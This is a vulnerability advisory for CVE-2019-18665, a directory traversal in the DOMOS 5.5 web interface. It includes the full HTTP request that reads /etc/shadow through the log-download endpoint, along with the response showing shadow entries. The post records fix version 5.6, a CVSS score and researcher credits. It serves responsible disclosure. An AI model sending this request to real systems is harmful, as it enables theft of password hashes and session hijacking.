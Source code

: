 ```yaml
---
layout: post
title: "CVE-2019-18665: Directory Traversal in DOMOS"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Directory Traversal
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SECUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one directory traversal vulnerability has been identified, which can be exploited in order to read session_id´s from other registered users and this can lead to a session hijacking of those users. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=/etc/shadow HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

The following HTTP response include the password hashes from the /etc/shadow:

__HTTP-Request__

~~~ http
HTTP/1.1 200 OK

Server: nginx/1.9.14
Date: Thu, 24 Jan 2019 11:48:50 GMT
Content-Type: application/data
Content-Length: 870
Connection: close
Last-Modified: Thu, 24 Jan 2019 11:48:50 GMT
Content-Disposition: shadow; filename="shadow"
Set-Cookie: session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611;
expires=Fri, 25 Jan 2019 04:27:50 GMT; httponly; Path=/; secure
Strict-Transport-Security: max-age=15768000
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only

root:$1$xxxxxxxxxxx:17919:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
...[SNIP]...
~~~

# CVE

[CVE-2019-18665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18665)

# CVSSv3 Base Score

CVSS Base Score: __6.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
